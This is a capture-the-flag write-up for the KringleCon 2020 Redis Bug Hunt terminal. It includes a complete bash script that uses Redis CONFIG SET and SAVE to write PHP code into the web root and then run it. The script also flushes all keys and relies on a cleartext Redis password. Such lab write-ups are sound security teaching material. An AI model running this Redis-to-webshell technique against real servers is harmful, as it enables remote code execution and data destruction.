

# Redis Bug Hunt

**Elf**: Holly Evergreen<br/>
**Direct link**: [redis terminal](https://docker2020.kringlecon.com/?challenge=redis&id=3c930cbf-5e9a-4e51-b71a-67e9607ebb03)<br/>
**Objective**: [Broken Tag Generator](../objectives/o8.md)


## Request

!!! quote "Holly Evergreen"
    Hi, so glad to see you! I'm Holly Evergreen.<br/>
    I've been working with this Redis-based terminal here.<br/>
    We're quite sure there's a bug in it, but we haven't caught it yet.<br/>
    The maintenance port is available for curling, if you'd like to investigate.<br/>
    Can you check the source of the `index.php` page and look for the bug?<br/>
    I read something online recently about remote code execution on Redis. That might help!<br/>
    I think I got close to RCE, but I get mixed up between commas and plusses.<br/>
    You'll figure it out, I'm sure!


## Hints

??? hint "Redis RCE"
    [This](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) is kind of what we're trying to do...


## Solution

??? abstract "Welcome message"
    ```text
    We need your help!!

    The server stopped working, all that's left is the maintenance port.

    To access it, run:

    curl http://localhost/maintenance.php

    We're pretty sure the bug is in the index page. Can you somehow use the
    maintenance page to view the source code for the index page?
    ```

The solution is based on the Webshell example in the [Redis pentesting guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) provided by Holly Evergreen. We need to trick Redis into creating a PHP script in the web server root folder that reads and writes the contents of `index.php` to a non-PHP file (so we can retrieve it without the contents being parsed by the PHP interpreter). 

We could use the suggested `curl` approach, but then we'd need to URL-encode any special characters so they are properly parsed by the `maintenance.php` script before being forwarded to the `redis-cli` command line tool. Since `/etc/redis/redis.conf` contains the password in cleartext anyway (i.e., *R3disp@ss*), we can use `redis-cli` directly instead.

!!! note "Redis DB compression"
    Ensure that `rdbcompression` is disabled in `/etc/redis/redis.conf`. Saving the Redis database to disk with compression enabled will also compress the PHP code stored inside the DB, making the code unreadable for the PHP interpreter and preventing the PHP instructions from being executed.

To automate the process create a [`redis_rce.sh`](../tools/hints/h8/redis_rce.sh) script containing the following commands.

```bash linenums="1"
#!/usr/bin/env bash

# Redis password from /etc/redis/redis.conf
RP='R3disp@ss'

# PHP code to copy /var/www/html/index.php to /var/www/html/f.txt
PHP="<?php file_put_contents('f.txt', file_get_contents('index.php')); ?>"

echo -n "Delete all keys from all databases: "
redis-cli --raw -a $RP flushall 2>/dev/null

echo -n "Disable Redis DB compression to leave PHP code as-is: "
redis-cli --raw -a $RP config set rdbcompression no 2>/dev/null

echo -n "Set output folder to /var/www/html/ web server root: "
redis-cli --raw -a $RP config set dir /var/www/html 2>/dev/null

echo -n "Set the DB filename to redis_rce.php: "
redis-cli --raw -a $RP config set dbfilename redis_rce.php 2>/dev/null

echo -n "Create 'rce' key containing PHP code: "
redis-cli --raw -a $RP set rce "$PHP" 2>/dev/null

echo -n "Save Redis DB to /var/www/html/redis_rce.php: "
redis-cli --raw -a $RP save 2>/dev/null

echo "Execute 'redis_rce.php' via GET request."
curl http://localhost/redis_rce.php 2>/dev/null

echo "Download http://localhost/f.txt"
curl http://localhost/f.txt --output f.txt 2>/dev/null

echo "Display f.txt"
cat -A f.txt
```

Execute the [`redis_rce.sh`](../tools/hints/h8/redis_rce.sh) script on the host to find the bug. :scream:




## Response

!!! quote "Holly Evergreen"
    See? I knew you could to it!<br/>
    I wonder, could we figure out the problem with the Tag Generator if we can get the source code?<br/>
    Can you figure out the path to the script?<br/>
    I've discovered that enumerating all endpoints is a really good idea to understand an application's functionality.<br/>
    Sometimes I find the Content-Type header hinders the browser more than it helps.<br/>
    If you find a way to execute code blindly, maybe you can redirect to a file then download that file?
